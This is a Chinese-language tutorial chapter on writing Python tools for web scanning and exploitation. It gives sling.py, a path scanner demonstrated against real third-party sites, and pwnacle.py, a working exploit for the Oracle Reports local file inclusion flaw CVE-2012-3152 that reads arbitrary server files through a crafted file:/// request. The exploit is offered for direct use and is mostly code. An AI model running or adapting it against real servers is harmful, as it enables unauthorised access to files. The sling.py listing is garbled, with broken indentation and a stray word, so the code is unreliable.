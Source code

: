 # Web 扫描和利用

## Web 扫描和利用

本章将会介绍如何使用 python 去构建一个简单的 web 扫描器，并且写一个简单的 exp。有些时候如果组织会发布出来一些漏洞测试的 POC，然后使用者可以使用这些 poc 去检查自己系统的漏洞，但是在这种情况下，如果是等 poc 发布出来早以为时已晚!

在[第五章](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x5.md)的时候告诉了大家基本的 web 请求,这一章我们讲两个新的内容:

*   检测特定的服务器列表.
*   利用一个 Oracle 的本地包含漏洞.

**Web 扫描**

下面的这个脚本使用"-i"参数把文件的 url 连接传递到脚本里面，然后使用"-r"参数指定请求的路径,最好使用"-s"参数去指定检测是否含有 CLI 漏洞的字符串.

```py
$ python sling.py -h
Usage: sling.py -i <file_with URLs> -r  -s [optional]

Options:
  -h, --help    show this help message and exit
  -i SERVERS    specify target file with URLs
  -r RESOURCES  specify a file with resources to request
  -s SEARCH     [optional] Specify a search string -s 
```

存储 url 链接列表文件的文本格式应该是这样的——"[`www.google.com`](http://www.google.com)" 一行，并且文件请求的路径应该是"request/"每行,例如:

```py
reqs:
CFIDE/
admin/
tmp/ 
```

下面是一个脚本调用的例子但是没有指定检测字符串:

```py
$ python sling.py -i URLs -r reqs
[+] URL: http://www.google.com/CFIDE/ [404]
[+] URL: http://www.google.com/admin/ [404]
[+] URL: http://www.google.com/tmp/ [404]
[+] URL: http://www.yahoo.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/admin/ [404]
[+] URL: http://www.facebook.com/tmp/ [404] 
```

现在当创建这些请求的时候，你可能想定义一个检测语句以减少误报，例如：你现在请求的路径是"/CFIDE/administrator/enter.cfm",你可以指定检测"CFIDE"的".cfm"页面是否有问题,这样就帮助你减少很多不必要耗费的时间.下面这个例子演示了上面脚本的完整示例:

```py
$ python sling.py -i URLs -r reqs -s google
[+] URL: http://www.google.com/CFIDE/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/admin/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/tmp/ [404] Found: 'google' in ouput 
```

正如你所看到的，这个脚本只会检测带有'google'关键字的 url 链接并且通过"STDOUT"显示在屏幕上面,这是一个很简单的脚本能够帮你快速的检索一些 web 资源,更进一步,我们可以指定服务器的版本号和漏洞版本,完整的脚本在教程的最后面:

**自动 web 攻击应用**

在几个月以前,一个安全研究员[NI@root](http://blog.netinfiltration.com/2013/12/12/hacking-oracle-reports-11g/)　发表过一篇详细的 Oracle 本地包含漏洞的报告,在报告发布的同时还发布了一个 POC 检测工具,用来检测你的服务器是否有 bug,除此以外就没有任何工具了,该漏洞允许你通过发起以下请求连接来访问服务器的其他文件或目录,使用"file:///".

```py
request = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///' 
```

下面是调用这个脚本的语法:

```py
$ python pwnacle.py <server> <resource> 
```

pwnacle.py:

```py
#######################################
# pwnacle.py - Exploits CVE-2012-3152 #
# Oracle Local File Inclusion (LFI)   #
#######################################

import urllib, sys, ssl, inspect
exec inspect.getsource(ssl.wrap_socket).replace("PROTOCOL_SSLv23","PROTOCOL_SSLv3") in dict(inspect.getmembers(ssl.wrap_socket))["func_globals"]
import socket

server = sys.argv[1]      # Assigns first argument given at the CLI to 'server' variable
dir = sys.argv[2]         # Assigns second argument given at the CLI to 'dir' variable
ip = server.split('/')[2] # formats the server by splitting the string based on the '/' which grabs the IP out of 'http://ip/'
req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///' #request format to exploit the vulnerability

print "Sending Request: "+server+req+dir+'"'

if 'http://' in server: # 使用 http 的 urllib 模块  --如果是 ssl 协议就出抛出错误
        try:
                conn = urllib.urlopen(server+req+dir+'"') # 发送请求给服务器
                out = conn.readlines()
                for item in conn:
                        print item.strip()
        except Exception as e:
                print e

if 'https://' in server:  # Create web request with ssl module
        try:
                conn = ssl.wrap_socket(socket.create_connection((ip, 443)))
                request = 'GET '+req+dir+'"'+' HTTP/1.1'+'\n'
                request += 'Host: '+ip+'\n'
                request += 'User-Agent: Mozilla/5.0 '+'\n'
                request += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'+'\n'
                request += 'Accept-Language: en-US,en;q=0.5'+'\n'
                request += 'Accept-Encoding: gzip, deflate'+'\n'
                request += 'Connection: keep-alive'+'\n'
                conn.send(request+'\n')
                print conn.recv()
                print conn.recv(20098)

        except Exception as e:
                print e 
```

Sling.py:

```py
#####################################
# sling.py - checks for resources   #
# Can seach for string in response  #
#####################################

from bs4 import BeautifulSoup
import sys, optparse, socket
from urllib import urlopen

class Colors:
        RED = '\033[91m'
        GREEN = '\033[92m'

def webreq(server, resources):                              # 主机地址,请求路径
        try:
                resource = []
                for item in open(resources, 'r'):           #对请求资源路径循环
                        resource.append(item.strip())            # 把文件内的链接添加到数组里面
                for item in resource:                       #循环数组并且创建请求
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.settimeout(5)                     # 设置连接超时时间
                        url = server.strip()+item.strip()        # 格式化请求 url 链接: "http://www.site.com/CFIDE/administrator/enter.cfm"
                        request = urlopen(url)                   # 创建请求
                        if search:                     # 如果变量 "search"为 true (-s)
                                parsed = BeautifulSoup(request.read(), "lxml")  #使用 BeautifulSoup 解析
                                if search in str(parsed):             # 如果 search 存在就输出
                                        print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"] Found: '"+search+"' in ouput"
                        elif request.getcode() == 404:                # 获取 http 状态码
                                print Colors.RED+"[+] URL: "+url+" ["+str(request.getcode())+"]"    # 打印 url 的状态码
               elif request.getcode():
                    print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"]"

        except:pass

def main():
# 创建一个 CLI 功能函数并且存储到变量里面
parser = optparse.OptionParser(sys.argv[0]+' '+ \
        '-i <file_with URLs> -r  -s [optional]')
        parser.add_option('-i', dest='servers', type='string', help='specify target file with URLs')
        parser.add_option('-r', dest='resources', type='string', help='specify a file with resources to request')
        parser.add_option('-s', dest='search', type='string', help='[optional] Specify a search string -s ')
        (options, args) = parser.parse_args()
        servers=options.servers
        resources=options.resources
        global search; search=options.search

        if (servers == None) and (resources==None):              # 检查 CLI 是否有效
                print parser.usage                     # if not print usage
                sys.exit(0)

        if servers:
                for server in open(servers, 'r'):           # 循环文件里面的 url 连接
                        webreq(server, resources)           # 调用 webreq 函数
                        function

if __name__ == "__main__":
      main() 
```
